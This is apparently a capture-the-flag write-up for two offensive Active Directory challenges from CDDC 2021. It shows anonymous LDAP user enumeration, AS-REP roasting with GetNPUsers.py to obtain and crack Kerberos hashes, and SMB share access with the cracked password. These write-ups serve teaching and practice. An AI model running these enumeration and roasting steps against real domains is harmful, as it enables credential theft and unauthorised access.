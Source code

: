 # Behind The Mask

This was a series of offensive Active Directory challenges hosted during CDDC 2021.

## Challenge #1: Light  
### Points: 200
### Challenge Text:  
It’s time to expose the GDC! We have successfully obtained the IP address of their AD server.   
First, try to list the different users that are configured on the server.  

### Solution  
The list of users from the DC can be obtained with the following command:  
```ldapsearch -LLL -x -H ldap://18.136.74.102 -b ‘DC=gdc,DC=local' > enumAD.txt```  
The flag is in the description for one of the users. I just opened the enumAD.txt file and
ctrl+F'ed for the flag format.  
  
![flag](./Behind_The_Mask/light.png)

## Challenge #1: Get a Ticket
### Points: 300
### Challenge Text:  
We must find a way to access the shared folders configured on this server. I don’t see anyway, but maybe you can figure it out…

### Solution  
Since these challenges are locked in order, I assume that each challenge is dependant on the solution to the
previous one. Since the previous challenge was to get a list of users, I originally assumed the solution was to
find a service account and kerberoast it.  
  
However, no accounts vulnerable to kerberoasting were found. We eventually solved the challenge by ASREP-Roast-ing user accounts
found in the previous challenge for kerberos tickets. The following command was used:

python GetNPUsers.py gdc.local/ -usersfile usernames.txt -format hashcat -outputfile tickets.txt
  
![tickets](./Behind_The_Mask/tickets.png)
  
Kerberos tickets for the user liam.a were obtained. The tickets were roasted and the password for liam.a was obtained.  

![cracked](./Behind_The_Mask/cracked.png)
  
Using the password p@ssw0rd and the user liam.a, I listed the network shares.

```
smbclient -L //18.136.74.102/ -U liam.a
Enter WORKGROUP\liam.a's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin                                                                                                                                                                      
        Backup          Disk                                                                                                                                                                                        
        C$              Disk      Default share                                                                                                                                                                     
        Forensics       Disk                                                                                                                                                                                        
        IPC$            IPC       Remote IPC                                                                                                                                                                        
        Mission2 Flag   Disk                                                                                                                                                                                        
        NETLOGON        Disk      Logon server share                                                                                                                                                                
        SYSVOL          Disk      Logon server share  


smbclient //18.136.74.102/Mission2\ Flag -U liam.a  
...
cat flag.txt  
CDDC21{4S_REP_R0A$T}```